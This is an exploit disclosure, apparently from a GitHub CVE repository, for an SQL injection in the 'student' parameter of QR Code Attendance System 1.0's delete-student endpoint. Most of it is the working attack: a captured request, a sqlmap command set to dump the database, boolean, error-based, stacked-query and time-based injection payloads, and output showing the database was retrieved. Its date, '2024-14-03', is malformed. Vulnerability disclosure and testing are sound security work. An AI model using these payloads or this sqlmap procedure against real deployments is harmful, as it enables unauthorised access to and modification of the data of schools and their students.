 # QR Code Attendance System - SQL Injection -1
+ **Exploit Title:** QR Code Attendance System - SQL Injection -1
+ **Date:** 2024-14-03
+ **Exploit Author:** Burak Sevben
+ **Vendor Homepage:** https://www.sourcecodester.com/php/17242/qr-code-attendance-system-using-php-and-mysql-source-code.html
+ **Software Link:** https://www.sourcecodester.com/download-code?nid=17242&title=QR+Code+Attendance+System+Using+PHP+and+MySQL+with+Source+Code
+ **Version:** 1.0
+ **Tested on:** Kali Linux + PHP 8.2.12, Apache 2.4.58
+ **CVE:** Reported, waiting for CVE number.

## Description:
QR Code Attendance System  1.0 allows SQL Injection via the 'student' parameter in "http://localhost/qr-code-attendance-system/endpoint/delete-student.php?student=1". Exploiting this issue could allow an attacker to compromise the application, access or modify data, or exploit the latest vulnerabilities in the underlying database.

## Proof of Concept:
+ Go to this address: "http://localhost/qr-code-attendance-system/masterlist.php"
+ Select any student and press the delete-student button
+ Capture the request via Burp Suite and send it to the Repeater.
+ Copy the request and paste it into an "r.txt" file.
+ Captured Burp request:
```
GET /qr-code-attendance-system/endpoint/delete-student.php?student=1 HTTP/1.1
Host: localhost
sec-ch-ua: "Not A(Brand";v="24", "Chromium";v="110"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Linux"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.78 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,/;q=0.8,application/signed-exchange;v=b3;q=0.7
```

+ Use sqlmap to exploit. In sqlmap, use 'student' parameter to dump the database.
```
sqlmap -r r.txt -p student --risk 3 --level 5 --dbms mysql --proxy="http://127.0.0.1:8080" --batch --current-db
```
```
---
Parameter: student (GET)
    Type: boolean-based blind
    Title: MySQL RLIKE boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause
    Payload: student=1' RLIKE (SELECT (CASE WHEN (1502=1502) THEN 1 ELSE 0x28 END))-- nKHR

    Type: error-based
    Title: MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)
    Payload: student=1' AND EXTRACTVALUE(8135,CONCAT(0x5c,0x71787a7171,(SELECT (ELT(8135=8135,1))),0x716b6b6271))-- LcEp

    Type: stacked queries
    Title: MySQL >= 5.0.12 stacked queries (comment)
    Payload: student=1';SELECT SLEEP(5)#

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: student=1' AND (SELECT 4221 FROM (SELECT(SLEEP(5)))mKvY)-- XUeE
---
[19:02:38] [INFO] the back-end DBMS is MySQL
web application technology: Apache 2.4.58, PHP 8.2.12
back-end DBMS: MySQL >= 5.1 (MariaDB fork)
[19:02:39] [INFO] fetching current database
[19:02:39] [INFO] retrieved: 'qr_attendance_db'
current database: 'qr_attendance_db'
```
+ current database: `qr_attendance_db`

![Ekran görüntüsü 2024-03-14 020459](https://github.com/BurakSevben/CVEs/assets/117217689/08735a89-cad4-4f11-8cac-715652e72bd4)
